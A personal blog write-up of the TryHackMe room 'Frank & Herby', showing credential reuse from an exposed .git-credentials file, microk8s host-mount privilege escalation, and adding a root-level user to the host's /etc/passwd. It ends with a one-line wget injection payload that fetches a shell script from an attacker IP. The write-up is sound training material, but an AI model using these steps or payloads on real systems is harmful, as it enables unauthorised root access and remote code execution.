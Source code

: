 ```yaml
---
layout: post
title:  "THM: Frank & Herby"
date:   2021-11-07 20:00:00 +1000
category: hacking
---
```


It's been a month; really. What have I been doing in all this time? Stuff, but nothing worth noting. I've done some VulnHub boxes, some RootMe stuff, a bit of THM and a few other things but nothing worth making any particular notes about. But, this one was a bit more novel so here goes. This is [Frank & Herby make an app](https://tryhackme.com/room/frankandherby), which is Medium rated.

We get a few clues in the description and questions:

>Learn how the misconfiguration of containers can lead to opportunities for some and disasters for others.

>Containers are really cool, but they have security considerations just like everything else.  Break into the box and then figure out how to get root access!

>This box will require some research into how to use microk8s.

> Our story so far....  
Two developers are venturing into the world of Kubernetes. Little do these developers know that their lack of understanding in 'k8s', containers, and git has left their resources open to exploitation!

And the questions?

1. What port has a webpage frank was able to stand up? 
2. What did frank leave exposed on the site? 
3. What is the user.txt flag?
4. What is the root.txt flag? 

Wow, we've got a bit to unpack here. We know we're looking for *something* on a website, and we'll be playing with Kubernetes, which I know very little about.

We'll skip over the first part, because frankly it's not that interesting. The file we want is **.git-credentials** and it's on a website on Port 31337, which I found very easily with some enum. **.git-credentials** is url-encoded but once we decode it we have creds for *frank* and we can SSH in.

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/herby]
└─# ssh frank@10.10.175.253
The authenticity of host '10.10.175.253 (10.10.175.253)' can't be established.
ECDSA key fingerprint is SHA256:JVbSbQGZ6S0I00f3YqCarCQKCFZPnOwZw02dn143Xog.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.175.253' (ECDSA) to the list of known hosts.
frank@10.10.175.253's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

116 updates can be installed immediately.
5 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Oct 29 10:47:08 2021 from 192.168.120.38
frank@dev-01:~$
{% endhighlight %} 

To start with I blundered about in the dark, but eventually I figured this out. Rather than outline my mistakes, I'll cut to the chase. We can list the **pods** available:

{% highlight shell %}
frank@dev-01:~$ microk8s.kubectl get pods -A
{% endhighlight %} 

|---
|NAMESPACE |NAME |READY |STATUS |RESTARTS |AGE |
|--- |----------- |----------- |----------- |----------- |----------- |
|container-registry |registry-9b57d9df8-2qbbs                |1/1  |Running |8 |34d |
|kube-system        |hostpath-provisioner-5c65fbdb4f-29k5w   |1/1  |Running |8 |34d |
|default            |nginx-deployment-7b548976fd-77v4r       |1/1  |Running |2 |10d |
|kube-system        |coredns-7f9c69c78c-hpsnw                |1/1  |Running |7 |34d |
|kube-system        |calico-node-6595k                       |1/1  |Running |8 |34d |
|kube-system        |calico-kube-controllers-f7868dd95-xkk4w |1/1  |Running |8 |34d |

So essentially we only have *one* container of interest; nginx. This [article](https://pulsesecurity.co.nz/advisories/microk8s-privilege-escalation) describes the technique we're going to use. We need to edit or create a *yaml* file; I choose to start with the existing one that was used to deploy the pod in the first place. As it happens, it's this one:

{% highlight shell %}
frank@dev-01:~$ cd ~/repos/dk-ml
frank@dev-01:~/repos/dk-ml$ ls -lash
total 36K
4.0K drwxrwxr-x 5 frank frank 4.0K Oct 27 19:50 .
4.0K drwxrwxr-x 3 frank frank 4.0K Oct 27 19:57 ..
4.0K drwxrwxr-x 8 frank frank 4.0K Oct 27 18:31 .git
4.0K -rw-rw-r-- 1 frank frank   72 Oct 27 18:31 README.md
4.0K drwxr-xr-x 5 frank frank 4.0K Oct 27 19:57 assets
4.0K drwxrwxr-x 4 frank frank 4.0K Oct 27 19:02 bootstrap-nginx-docker
4.0K -rw-rw-r-- 1 frank frank  427 Oct 27 19:42 nodeport.yaml
4.0K -rw-rw-r-- 1 frank frank    1 Oct 27 19:03 test.txt
4.0K -rw-rw-r-- 1 frank frank  569 Oct 27 19:47 test.yaml
frank@dev-01:~/repos/dk-ml$ cp test.yaml old.yaml
{% endhighlight %} 

We can pretty much use the example provided at the link above, except the image name is *nginx* and we have to provide the IP/port per the original *test.yaml* (which I copied to old.yaml). I could show it here but I forgot to *cat* the files before the box closed, so you'll have to take my word for it. The reason we can't just use:

``
image: ubuntu:latest
``

from the provided example is that it tries to pull from an online repo and the box doesn't have an internet connection. We might be able to host an image ourselves....hmmm. Anyway we can use the nginx one just fine. Next we do:

{% highlight shell %}
frank@dev-01:~/repos/dk-ml$ microk8s.kubectl apply -f test.yaml
pod/hostmount created
{% endhighlight %} 

And if we run-run 

``
microk8s.kubectl get pods -A
``

we have a new pod in addition to the other ones:

| NAMESPACE | NAME | READY | STATUS | RESTARTS | AGE |
| --- | ----------- |  ----------- |  ----------- |  ----------- |  ----------- |
|default|hostmount|1/1|Running|0|4m6s

Goodo. Next it's:

{% highlight shell %}
frank@dev-01:~/repos/dk-ml$ microk8s.kubectl exec --stdin --tty hostmount -- /bin/bash
root@hostmount:/# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

or some variation thereof; the example from the article:

``
microk8s.kubectl exec -it hostmount /bin/bash
``

does not work. 

This one does though:

``
microk8s.kubectl exec -it hostmount -- /bin/bash
``

Syntax eh.

Once we are there, we can go to /opt/root and find the root filesystem; I add good old **root2** to /etc/passwd:

{% highlight shell %}
root@hostmount:/opt/root/etc# echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> passwd
root@hostmount:/opt/root/etc# exit
exit
frank@dev-01:~/repos/dk-ml$ su root2
Password: 
root@dev-01:/home/frank/repos/dk-ml# cd /root
root@dev-01:~# ls -lash
total 32K
4.0K drwx------  4 root root 4.0K Oct 29 10:17 .
4.0K drwxr-xr-x 21 root root 4.0K Oct 29 10:15 ..
   0 lrwxrwxrwx  1 root root    9 Oct 29 10:17 .bash_history -> /dev/null
4.0K -rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
4.0K -rw-r--r--  1 root root  161 Dec  5  2019 .profile
4.0K drwx------  2 root root 4.0K Oct  3 15:29 .ssh
4.0K -rw-------  1 root root  705 Oct 27 20:19 .viminfo
4.0K -rw-r--r--  1 root root   21 Oct 27 20:20 root.txt
4.0K drwxr-xr-x  5 root root 4.0K Oct  3 16:53 snap
root@dev-01:~# cat root.txt
THM{FLAG_GOES_HERE}
root@dev-01:~# Connection to 10.10.114.151 closed by remote host.
Connection to 10.10.114.151 closed.
{% endhighlight %}

Note! Pay close attention to the directory I was in: *root@hostmount:/opt/root/etc*. Going to /etc will **not** work, because that is for the container and not where the host is mounted. Anyway this was interesting which is why I'm recording it here.

Also I did [Minotaur's Labyrinth](https://tryhackme.com/room/labyrinth8llv) but there wasn't anything too novel there. Except for the fact that **wget** doesn't need http:// so you can defeat a regex with it; maybe I'll write it up....maybe not.

``
wget+10.9.10.123/shell.sh+-O+/tmp/shell.sh
``
